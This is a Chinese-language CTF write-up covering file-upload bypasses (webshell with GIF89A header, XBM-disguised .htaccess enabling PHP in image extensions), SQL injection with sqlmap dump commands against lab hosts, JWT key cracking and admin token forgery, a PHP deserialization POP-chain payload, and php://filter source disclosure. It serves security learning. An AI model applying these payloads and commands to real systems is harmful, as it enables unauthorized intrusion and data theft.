

## 4.1

#### Upload 1

似曾相识的界面：

文件上传题目，先上传一句话木马


返回unsafe文件，但是图片能够上传，将文件类型改为image/jpg，加上图片头，发送成功：

但是这里的一句话木马无法执行，替换成了另一句：

通过hackbar直接传入参数rce得到flag：

#### Upload 2

在上面的图片类型和图片头GIF89A外，还对文件名进行了检测，.php文件无法上传；大小写绕过，php5，phtml等方式上传的文件，不被认为是可执行文件；

这里需要上传.htaccess文件将这些文件类型加入到可执行文件类型；但是不能用GIF89A来伪装图片，

```
利用
#define width 1
#define height 1
AddType application/x-httpd-php .jpg .png .gif .php5
来伪装成图片使得.htaccess上传成功；其中的#define width 1 #define height 1是XBM的头部；这是一种纯文本的图像格式，服务器通常会将其识别为合法的图片文件，而不会像处理二进制图片（如 JPG）那样容易出错。传入GIF89A会导致500 Internal Server Error。
```

传入.htaccess后再传入后缀为.php5的一句话木马，最后通过hackbar直接传入参数rce得到flag：

#### Virtual Shop

进入页面：

点击超链接后观察到这里存在注入点，

```
利用'order by x-- 测出列数为4列
```

测试得到回显位为1，3，4位；传入database却发生爆错；使用sqlmap一把梭：

```
py sqlmap.py -u http://49.232.142.230:10763/filter?category=IT --batch --dump --threads 10 -T users
```


#### Virtual Shop 2

sqlmap一把梭；先用：

```
py sqlmap.py -u http://49.232.142.230:12782/filter?category=Sport --batch --dbs --tables --threads 10 --flush-session
```

跑出表名：

再用：

```
 py sqlmap.py -u http://49.232.142.230:12782/filter?category=Sport --batch --dump -T UsEErrSS1337987 --threads 10
```

跑出表中数据：

## 4.2

#### jwt

进入页面：

注册用户登录后，得到jwt令牌，解析得到信息为用户信息：

利用c-jwt-crack暴力破解得到密钥NuAa：

将用户名替换为admin后重新签名jwt令牌：

在个人中心的页面下，替换jwt令牌再次访问得到flag：

#### easy-pop

进入页面，给出了源代码：

构造序列化：

```php
<?php
class lemon{
    public $ClassObj;
    function __construct() {
        $this->ClassObj = new evil();
    }
    function __destruct() {
        $this->ClassObj->action();
    }
}

class evil {
    public $data;
    function action() {show_source("flag.php");}
}
$b = new lemon();
var_dump(serialize($b))
?>
```

GET传参d得到flag：

#### command-injection

进入页面：再前端源代码中泄露了include.php：

访问后多出来了一个注入点file=index:

使用php伪协议

/include.php?file=php://filter/convert.base64-encode/resource=include

读源码，暴露出了createfun.php

再读createfun.php.解码后得到：

```php
<?php
$func = @$_GET['func'];
$arg = @$_GET['arg'];
if(isset($func)&&isset($arg)){$func($arg,'');}
```

根据两个参数的位置可以看出来前面是函数，后面是参数；传入show_source(flag.php)显示flag：
